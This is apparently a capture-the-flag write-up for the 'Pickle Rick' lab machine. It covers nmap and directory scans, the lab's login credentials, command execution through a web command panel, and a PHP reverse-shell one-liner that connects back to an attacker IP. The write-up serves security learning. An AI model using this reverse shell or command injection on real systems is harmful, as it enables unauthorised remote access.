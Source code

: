 # Pickle Rick

IP - 10.10.191.16

## Scanning and Enumeration

nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d3:e5:84:36:c0:98:a2:63:04:01:cc:75:a9:d1:94:2a (RSA)
|   256 b9:37:a1:31:ab:af:e7:a3:1d:bf:32:39:67:00:b6:6b (ECDSA)
|_  256 b9:1d:36:7c:9f:a9:19:a6:be:34:f5:7c:97:0e:18:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|http-title: Rick is sup4r cool
| http-methods:
|  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

dirsearch:
```
[21:38:43] 403 -   277B - /.php

[21:38:59] 200 -    2KB - /assets/

[21:38:59] 301 -   313B - /assets  ->  http://10.10.191.16/assets/

[21:39:13] 200 -    1KB - /index.html

[21:39:16] 200 -   882B - /login.php

[21:39:26] 200 -    17B - /robots.txt
```
- Viewed HTML source code on picklerick.thm website and found Username: R1ckRul3s.
- Found password in 10.10.191.16/robots.txt - Wubbalubbadubdub
- Navigate to /login.php and used username R1ckRul3s and password Wubbalubbadubdub to log in.

## Exploit
Command Panel is vulnerable and allowing to use commands to get information. I used "ls -a" to list all files including hidden files and found Sup3rS3cretPickl3Ingred.txt. I was able to get the first ingredient by running - grep . -R

## Reverse Shell
Executed PHP reverse shell and gained access: 
```
php -r '$sock=fsockopen("10.6.41.41",4444);exec("/bin/sh -i <&3 >&3 2>&3");’
```
Cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet







